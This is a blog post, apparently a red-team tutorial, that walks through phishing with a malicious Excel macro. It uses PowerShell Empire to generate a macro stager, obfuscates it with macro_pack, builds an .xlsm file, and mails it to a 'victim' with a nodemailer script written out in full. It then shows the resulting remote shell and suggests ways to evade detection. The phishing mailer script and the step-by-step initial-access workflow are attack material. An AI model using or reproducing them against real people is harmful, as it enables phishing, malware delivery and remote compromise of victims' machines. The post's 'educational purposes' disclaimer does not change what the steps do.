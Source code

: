 ```yaml
---
layout: post
title: Red Teaming - Macros & Phishing
date: 2022-01-23
image: /assets/img/redteam1/1.png
categories: [malware, phishing, nodejs, gmail, starkiller, macros, macropack]
---
```


## Intro

***Only for educational purposes.***
***I am not responsible for any illegal use.***

## Kali


#### Empire

```bash
sudo powershell-empire server
```

![image](/assets/img/redteam1/1.png)

#### StarKiller

```
Default creds -> empireadmin:password123
```

- View Listener

![image](/assets/img/redteam1/2.png)

- Create Stager 

```
windows/macro
```

![image](/assets/img/redteam1/3.png)

- Copy the Macro 

![image](/assets/img/redteam1/4.png)

- Start C# Empire Server

![image](/assets/img/redteam1/5.png)

## Windows

- paste the macro stager to the windows vm
- macro.vba

![image](/assets/img/redteam1/6.png)

#### Macro Pack

Download Here : [macro_pack](https://github.com/sevagas/macro_pack/releases/)

```powershell
.\macro_pack.exe -f C:\Users\dmtrs\Documents\macro.vba -o -G C:\Users\dmtrs\Documents\obs_macro.vba
```

![image](/assets/img/redteam1/7.png)

- the new obfuscated vba

![image](/assets/img/redteam1/8.png)

## Malicious Excel (Manually)

- Create a new blank excel

- Developer -> macros

![image](/assets/img/redteam1/9.png)

![image](/assets/img/redteam1/10.png)

![image](/assets/img/redteam1/11.png)

- Replace the empty function with the obs_macro's contents

![image](/assets/img/redteam1/12.png)

- Save it as xlsm

![image](/assets/img/redteam1/13.png)


###### Next Tasks

- Copy the Company.xlsm to our kali
- Send via email the xlsm using the nodejs nodemailer 

## Kali

- Make sure that the attacker's email has got the lesssecureapps enabled 

- https://myaccount.google.com/lesssecureapps

- filename app.js

```bash
node app.js
```

```javascript
var nodemailer = require('nodemailer');

var mail = nodemailer.createTransport({
    service: 'gmail',
    auth: {
		//your gmail credentials
        user: 'evil.sender@example.com',
        pass: 'simpleExamplePassword'
    }
});

var mailOptions = {
    from: 'evil.sender@example.com', //your evil gmail
    to: 'victim@example.com', // victims gmail
    subject: 'Confidential Document',
    text: 'Please do not share the attached xls',
   
    attachments: [

        {   // file on disk as an attachment
            filename: 'Company.xlsm',
            path: 'Company.xlsm' // stream this file
        }
    ]
    
};

mail.sendMail(mailOptions, function (error, info) {
    if (error) {
        console.log(error);
    } else {
        console.log('Email sent: ' + info.response);
    }
});
```

- Result

Email sended

![image](/assets/img/redteam1/14.png)

## Victims Emails

![image](/assets/img/redteam1/15.png)

- I send it to my self but if you send it to other account, google will notify them that maybe is a phishing email and it will send it to spam

![image](/assets/img/redteam1/16.png)

## Victim Computer

***Security Measures are Disabled***

- Download the file 
- Enable Editing

![image](/assets/img/redteam1/17.png)

- Enable Content

![image](/assets/img/redteam1/18.png)

- Run Macro

![image](/assets/img/redteam1/19.png)

## Agent Created (Kali)

![image](/assets/img/redteam1/20.png)

- File Browser

![image](/assets/img/redteam1/21.png)

- Interact /  Shell Command

![image](/assets/img/redteam1/22.png)

## Virus Total

![image](/assets/img/redteam1/23.png)

## Conclusion

Obviously we could use and combine more obfuscation techniques with better performance. 

Additionally we could not send the file directly but a link for the user to download the file. 

Finally, with the use of various tools such as LuckyStrike we could not put the user in the process of running macros. 

This was a very simple example and I presented it for educational purposes.


***Only for educational purposes.***
***I am not responsible for any illegal use.***





